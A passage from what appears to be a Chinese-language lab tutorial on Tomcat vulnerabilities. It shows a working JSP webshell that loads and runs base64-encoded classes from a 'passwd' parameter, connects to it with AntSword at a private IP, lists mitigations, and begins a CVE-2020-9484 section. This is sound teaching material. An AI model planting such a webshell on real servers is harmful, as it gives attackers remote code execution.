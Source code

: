 ```
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

访问http://192.168.70.14:8080/passwd.jsp

![image-20240716153545669](https://image.201068.xyz/assets/image-20240716153545669.png)

###### 蚁剑连接

```
http://192.168.70.14:8080/passwd.jsp
passwd
```

![image-20240716154315524](https://image.201068.xyz/assets/image-20240716154315524.png)

![image-20240716154336759](https://image.201068.xyz/assets/image-20240716154336759.png)

#### 漏洞防护

1. 1.配置`readonly`值为`True`或**注释参数**，禁止使用`PUT`方法并重启`tomcat`。
2. 2.通过`WAF`阻止`PUT`和`DELETE`危险请求
3. 3.静止用户上传`JSP`脚本

### 8.反序列化漏洞(CVE-2020-9484)

将服务器的`Session`数据存放在**文件系统**或**数据库**中，这样的操作称为 **Session对象的持久化**。Session对象在持久化时，存放在其中的**对象**以序列化的形式存放。

#### 影响版本和不影响版本
